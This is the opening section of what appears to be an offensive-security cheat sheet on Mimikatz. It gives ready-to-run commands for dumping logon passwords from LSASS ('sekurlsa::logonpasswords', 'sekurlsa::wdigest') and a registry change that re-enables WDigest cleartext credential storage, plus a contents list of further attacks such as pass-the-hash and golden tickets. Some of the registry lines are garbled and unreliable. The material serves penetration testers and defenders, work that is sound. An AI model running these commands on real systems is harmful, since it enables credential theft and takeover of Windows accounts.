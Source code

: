 # Windows - Mimikatz

## Summary

* [Mimikatz - Execute commands](#mimikatz---execute-commands)
* [Mimikatz - Extract passwords](#mimikatz---extract-passwords)
* [Mimikatz - LSA Protection Workaround](#mimikatz---lsa-protection-workaround)
* [Mimikatz - Mini Dump](#mimikatz---mini-dump)
* [Mimikatz - Pass The Hash](#mimikatz---pass-the-hash)
* [Mimikatz - Golden ticket](#mimikatz---golden-ticket)
* [Mimikatz - Skeleton key](#mimikatz---skeleton-key)
* [Mimikatz - RDP session takeover](#mimikatz---rdp-session-takeover)
* [Mimikatz - Credential Manager & DPAPI](#mimikatz---credential-manager--dpapi)
  * [Chrome Cookies & Credential](#chrome-cookies--credential)
  * [Task Scheduled credentials](#task-scheduled-credentials)
  * [Vault](#vault)
* [Mimikatz - Commands list](#mimikatz---commands-list)
* [Mimikatz - Powershell version](#mimikatz---powershell-version)
* [References](#references)

![Data in memory](http://adsecurity.org/wp-content/uploads/2014/11/Delpy-CredentialDataChart.png)

## Mimikatz - Execute commands

Only one command

```powershell
PS C:\temp\mimikatz> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```
# Mimikatz console (multiple commands)
```powershell
PS C:\temp\mimikatz> .\mimikatz
mimikatz # privilege::debug
mimikatz # log
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest
```
## Mimikatz - Extract passwords
> Microsoft disabled lsass clear text storage since Win8.1 / 2012R2+. It was backported (KB2871997) as a reg key on Win7 / 8 / 2008R2 / 2012 but clear text is still enabled.
```powershell
>mimikatz_command -f sekurlsa::logonPasswords full
>mimikatz_command -f sekurlsa::wdigest
$ re-enable wdigest | Windows Server 2012+
$ HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest 
$ -create "DWORD"_'UseLogonCredential'+value=1.
$ -reg [+] HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /f /d 1
```
:warning: To take effect, conditions are required :
- Win7 / 2008R2 / 8 / 2012 / 8.1 / 2012R2:
  * Adding requires lock
  * Removing requires signout
- Win10:
  * Adding requires signout
  * Removing requires signout
- Win2016:
  * Adding requires lock
  * Removing requires reboot
